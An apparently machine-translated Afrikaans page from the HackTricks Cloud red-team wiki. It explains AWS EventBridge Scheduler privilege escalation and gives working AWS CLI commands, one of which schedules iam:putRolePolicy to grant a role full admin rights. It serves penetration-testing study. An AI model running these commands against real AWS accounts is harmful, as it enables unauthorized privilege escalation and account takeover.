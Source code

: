 # AWS - EventBridge Scheduler Privesc

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EventBridge Scheduler

EventBridge Scheduler kan gebruik word vir privilige eskalasie deur oproepe na verskeie AWS dienste te skeduleer. Deur sy vermoë om dienste op 'n geskeduleerde basis aan te roep, kan gebruikers met voldoende toestemmings privilige eskaleer. Hier is 'n paar van die sleutel aksies wat EventBridge Scheduler kan aktiveer met behulp van getemplateerde teikens:

- Lambda: lambda:InvokeFunction - Roep Lambda funksies op 'n skedule aan.
- CodeBuild: codebuild:StartBuild - Begin AWS CodeBuild projekte.
- CodePipeline: codepipeline:StartPipelineExecution - Aktiveer AWS CodePipeline uitvoerings.
- ECS: ecs:RunTask - Voer ECS take uit.
- EventBridge: events:PutEvents - Plaas gebeurtenisse in EventBridge.
- Inspector: inspector:StartAssessmentRun - Begin Amazon Inspector assesserings.
- Kinesis: kinesis:PutRecord - Plaas rekords in Kinesis strome.
- Firehose: firehose:PutRecord - Plaas rekords in Firehose afleweringsstrome.
- SageMaker: sagemaker:StartPipelineExecution - Begin SageMaker pypaak uitvoerings.
- SNS: sns:Publish - Publiseer boodskappe na SNS onderwerpe.
- SQS: sqs:SendMessage - Stuur boodskappe na SQS rye.
- Step Functions: states:StartExecution - Begin uitvoerings van AWS Step Functions.

Dit is net 'n paar van die getemplateerde aksies wat EventBridge Scheduler kan uitvoer. egter, deur universele teikens te gebruik, kan baie ander aksies oor AWS dienste geaktiveer word. Universele teikens stel meer uitgebreide API operasies moontlik buite die getemplateerde lys.

Meer inligting oor EventBridge Scheduler in:

{% content-ref url="../aws-services/eventbridgescheduler-enum.md" %}
[eventbridgescheduler-enum.md](../aws-services/eventbridgescheduler-enum.md)
{% endcontent-ref %}

### `sts:AssumeRole`, `iam:PassRole`, (`scheduler:CreateSchedule` | `scheduler:UpdateSchedule`)

Gebruikers met `sts:AssumeRole`, `iam:PassRole`, en `scheduler:CreateSchedule of scheduler:UpdateSchedule` toestemmings kan privilige eskaleer deur die EventBridge Scheduler te benut om dienste aan te roep met 'n rol met hoër privilige.

Met hierdie toestemmings kan 'n aanvaller 'n rol met verhoogde privilige aanvaar en daardie rol aan EventBridge Scheduler oorhandig wanneer 'n skedule geskep of opgedateer word. Die skedule kan geconfigureer word om enige van die aksies wat vroeër gelys is, uit te voer, soos om Lambda funksies aan te roep, ECS take te begin, CodePipeline uitvoerings te aktiveer, of enige operasie van die 270 AWS dienste wat deur EventBridge Scheduler ondersteun word. Deur hierdie aksies te skeduleer, kan 'n aanvaller hoër privilige misbruik om ongeoorloofde operasies oor AWS dienste uit te voer.
\\

Byvoorbeeld, hulle kan die skedule configureer om 'n Lambda funksie aan te roep wat 'n getemplateerde aksie is:
```bash
aws scheduler create-schedule \
--name MyLambdaSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:lambda:<region>:<account-id>:function:<LambdaFunctionName>",
"RoleArn": "arn:aws:iam::<account-id>:role/<RoleName>"
}'
```
In addision to templated service actions, you can use universal targets in EventBridge Scheduler to invoke a wide range of API operations for many AWS services. Universal targets offer flexibility to invoke almost any API. One example can be using universal targets adding "AdminAccessPolicy", using a role that has "putRolePolicy" policy:
```bash
aws scheduler create-schedule \
--name GrantAdminToTargetRoleSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:scheduler:::aws-sdk:iam:putRolePolicy",
"RoleArn": "arn:aws:iam::<account-id>:role/RoleWithPutPolicy",
"Input": "{\"RoleName\": \"TargetRole\", \"PolicyName\": \"AdminAccessPolicy\", \"PolicyDocument\": \"{\\\"Version\\\": \\\"2012-10-17\\\", \\\"Statement\\\": [{\\\"Effect\\\": \\\"Allow\\\", \\\"Action\\\": \\\"*\\\", \\\"Resource\\\": \\\"*\\\"}]}\"}"
}'
```
## Verwysings

* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html)

* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
